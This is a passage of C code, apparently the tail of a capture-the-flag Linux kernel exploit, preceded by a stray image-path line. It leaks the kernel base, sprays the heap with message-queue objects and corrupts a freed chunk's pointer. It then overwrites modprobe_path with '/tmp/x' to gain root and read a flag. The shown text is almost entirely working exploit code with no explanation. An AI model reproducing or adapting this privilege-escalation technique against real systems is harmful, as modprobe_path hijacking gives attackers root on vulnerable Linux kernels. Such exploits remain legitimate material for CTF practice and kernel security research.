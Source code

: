 ```c
  }
  printf("[+] qid = %d\n", qid);

  kernbase = leak();
  printf("[*] Send message\n");
  msg *message = calloc(1, 0x200 + 8);
  bzero(message, 0x200 + 8);
  message->mtype = 1;
  memset(message->mtext, 'P', 0x200 - 0x30);

  char buf[CHUNK_SIZE];
  memset(buf, 'A', sizeof(buf));

  for (int i = 0; i < 24; i++) {
    add(buf);
  }

  printf("[+] 1 Remove all\n");
  rmall();

  printf("[+] Heap spary\n");
  for (int i = 0; i < 1; i++) {
    send_msg(qid, message, 0x200 - 0x30, 0); // 23
  }
  send_msg(qid, message, 0x40 - 0x30, 0); // 24
  send_msg(qid, message, 0x40 - 0x30, 0); // 25
  send_msg(qid, message, 0x40 - 0x30, 0); // 26
  send_msg(qid, message, 0x40 - 0x30, 0); // 27

  printf("[+] kernbase: 0x%lx\n", kernbase);
  uint64_t modprobe = kernbase + 0x1851400;

  // use 25 change 26's next, 27 is target
  uint64_t save_buf[0x100 / 8];

  get(25, buf); // 23(1d0) - 24(10) - 25(10) - 26(10) - 27(10)
  memcpy(save_buf, buf, sizeof(save_buf));
  hexdump(buf, sizeof(buf));
  save_buf[7] = modprobe - 8;

  edit(25, save_buf);

  bzero(buf, sizeof(buf));
  *(uint64_t *)buf = 0x782f706d742f; // /tmp/x
  edit(27, buf);
  get_flag();

  return 0;
}
```




